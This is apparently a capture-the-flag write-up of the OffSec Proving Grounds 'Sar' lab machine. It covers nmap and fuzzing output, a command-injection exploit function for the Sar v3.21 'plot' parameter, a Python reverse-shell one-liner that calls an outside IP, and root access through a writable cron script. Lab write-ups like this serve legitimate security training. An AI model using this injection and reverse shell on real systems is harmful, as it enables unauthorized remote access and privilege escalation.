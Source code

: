 ```yaml
---
title: "Proving grounds Play: Sar"
layout: post
date: 2023-07-23 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Pg-Play
- Linux
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3340be13cf517dd6a59c64c813e5f29f (RSA)
|   256 8a4eab0bdee3694050989858328f719e (ECDSA)
|_  256 e62f551cdbd0bb469280dd5f8ea30a41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for Directories and Files

```sh
000000069:   200        375 L    964 W      10918 Ch    "index.html"                           
000000157:   403        9 L      28 W       279 Ch      ".htaccess"                            
000000248:   200        1 L      1 W        9 Ch        "robots.txt"                           
000000279:   200        1172 L   5873 W     95674 Ch    "phpinfo.php"
```

**Sar v3.21**

![img](/assets/images/CTF/Proving_Grounds/Sar/sar.png)

## Searchsploit

![img](/assets/images/CTF/Proving_Grounds/Sar/searchsploit.png)

## Remote Code Execution

As per the exploit code the param `plot` is vulnerable to remote code execution.

```py
def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")       #vulnerable
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()
```

**Python Reverse Shell**

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.151",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Reverse Shell Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/local.png)

## Privilege Escalation

Crontab running a cron job every 5 minutes.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron.png)

Listing permissions for the script file.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron_file.png)

### Script contents

**Finally.sh**

```sh
#!/bin/sh

./write.sh
```

**write.sh**

```sh
#!/bin/sh

touch /tmp/gateway
```

Added python revershell to the `write.sh` file, so when the cronjob runs the write.sh file it will runs as `root`.

![img](/assets/images/CTF/Proving_Grounds/Sar/write_sh.png)

## Root Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).